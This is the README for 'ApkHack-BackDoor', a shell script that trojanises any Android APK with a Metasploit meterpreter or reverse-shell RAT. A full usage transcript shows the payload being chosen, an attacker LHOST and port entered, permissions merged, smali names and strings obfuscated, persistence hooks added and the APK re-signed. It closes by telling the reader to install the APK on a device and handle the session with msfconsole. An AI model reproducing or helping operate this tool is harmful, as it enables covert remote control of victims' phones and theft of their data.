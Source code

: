 # ApkHack-BackDoor
ApkHack-BackDoor is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of any Linux distribution, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for only educational purposes.

Usage:

```
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor# ./ApkHack-BackDoor.sh DarkHub.apk 
	    _    ____  _  __  _   _    _    ____ _  __
	   / \  |  _ \| |/ / | | | |  / \  / ___| |/ /
	  / _ \ | |_) | ' /  | |_| | / _ \| |   | ' / 
	 / ___ \|  __/| . \  |  _  |/ ___ \ |___| . \ 
	/_/   \_\_|   |_|\_\ |_| |_/_/   \_\____|_|\_\
								BitWalls-ops DarkHub
       

[*] Running ApkHack-BackDoor.sh v2.0.4a on Tue May 9 17:13:37 EDT 2023
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 107.4.9.31
[?] Please enter an LPORT value: 8080
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/dark/hub/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
